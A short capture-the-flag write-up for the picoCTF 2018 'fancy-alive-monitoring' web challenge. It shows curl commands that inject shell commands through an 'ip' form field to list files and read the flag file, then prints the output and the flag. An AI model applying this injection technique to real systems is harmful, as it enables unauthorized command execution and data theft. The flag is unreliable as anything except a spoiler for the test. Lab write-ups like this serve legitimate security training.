 # fancy-alive-monitoring - Points: 400 - (Solves: 245)

One of my school mate developed an alive monitoring tool.
Can you get a flag from http://2018shell2.picoctf.com:17593 (link)?

## Hints

- This application uses the validation check both on the client side
  and on the server side, but the server check seems to be inappropriate.
- You should be able to listen through the shell on the server.

---

https://github.com/lucyoa/ctf-wiki/tree/master/web/command-injection

```sh
% curl -d 'ip=127.0.0.1 ; ls -l > /tmp/zzzz.html ;' http://2018shell2.picoctf.com:17593/index.php
% cat /tmp/zzzz.html
total 16
-rw-rw-r-- 1 hacksports hacksports               1197 Sep 28 07:46 index.php
-rw-rw-r-- 1 hacksports hacksports               1197 Sep 28 07:46 index.txt
-r--r----- 1 hacksports fancy-alive-monitoring_0   56 Sep 28 07:46 the-secret-1335-flag.txt
-rwxr-sr-x 1 hacksports fancy-alive-monitoring_0  346 Sep 28 07:46 xinet_startup.sh
% curl -d 'ip=127.0.0.1 ; cat the-secret-1335-flag.txt > /tmp/zzzz.html ;' http://2018shell2.picoctf.com:17593/index.php
% cat /tmp/zzzz.html
Here is your flag: picoCTF{n3v3r_trust_a_b0x_d7ad162d}
```
